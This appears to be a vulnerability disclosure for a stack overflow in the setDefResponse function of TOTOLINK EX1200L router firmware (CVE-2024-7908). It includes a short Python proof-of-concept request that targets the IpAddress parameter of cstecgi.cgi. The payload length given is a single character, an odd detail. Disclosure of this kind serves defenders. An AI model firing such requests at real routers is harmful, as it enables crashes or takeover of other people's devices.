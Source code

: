 ## Overview

- Manufacturer's website: https://www.totolink.net/
- Firmware download website:
  - https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/217/ids/36.html

## Affected version

totolink EX1200L_Firmware V9.3.5u.6146_B20201023

## Vulnerability details

A stack overflow vulnerability exists in the `setDefResponse` function of program `/www/cgi-bin/cstecgi.cgi` in EX1200L V9.3.5u.6146_B20201023. The function receives the `IpAddress` parameter from the user request and copies it into the variable `v15` on the stack, causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"


cookie = {"Cookie":"uid=1234"}
data = {
"topicurl":"setDefResponse",
"IpAddress":"a"*0x1,
}

response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print(response)
```

Here is a screenshot of stack overflow:

![demo](image/demo.png)

## CVE

CVE-2024-7908
